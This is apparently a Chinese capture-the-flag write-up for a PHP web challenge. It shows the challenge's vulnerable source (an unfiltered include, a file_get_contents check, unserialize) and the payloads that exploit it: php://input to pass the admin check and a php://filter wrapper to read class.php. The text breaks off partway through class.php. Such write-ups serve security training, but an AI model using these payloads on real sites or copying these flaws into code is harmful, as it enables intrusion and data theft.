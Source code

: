 #### admin(200)
> http://120.55.43.255:28119

查看网页源码
```html
you are not admin ! <br/>hava a rest and then change your choose. 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
user参数使用php://input绕过，body填写admin。然后file参数文件包含，“php://filter/read=convert.base64-encode/resource=class.php”得到网页源码
```php
# index.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/fffffflag/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
    echo "<br/>";
    echo "hava a rest and then change your choose.";
}
 
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
```php
# class.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//fffffflag.php
```